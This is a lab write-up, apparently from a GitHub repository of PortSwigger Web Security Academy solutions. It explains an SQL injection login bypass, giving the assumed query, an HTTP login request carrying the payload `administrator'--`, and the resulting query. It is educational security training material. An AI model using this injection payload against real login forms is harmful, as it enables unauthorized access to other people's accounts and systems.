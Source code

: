 # Lab 02: SQL injection vulnerability allowing login bypass

## Description

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

---

## Solution

Since the login function is vulnerable to SQL injection and the challenge is to bypass authentication, the SQL query sent to the database can reasonably assumed to look like:

```sql
SELECT * from users where username = 'USERNAME' and password = 'PASSWORD';
```

where `USERNAME` AND `PASSWORD` are the user-input credentials.

The backend code that is authenticating the user probably issues this request to the database and then if it returns at least (or exactly) one row, the user is successfully authenticated.

The username is `administrator`, but the password is unknown. To get the SQL query to return at least one row, the username can be manipulated to ignore the password equality condition, like so (some HTTP headers removed for brevity):

```http
POST /login HTTP/1.1
Host: acb51f2f1ef22cc780680721005e00ce.web-security-academy.net
Cookie: session=oKMHLIlgaSjUunlWGPEg1s8oFGc06mQB
Content-Length: 81
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Connection: close

username=administrator'--&password=password&csrf=hEUOmnZQ5Kh8Yuhoywn3JvFrW5jeYl3S&
```

resuling in the following SQL query:

```sql
SELECT * from users where username = 'administrator'--' and password = 'PASSWORD';
```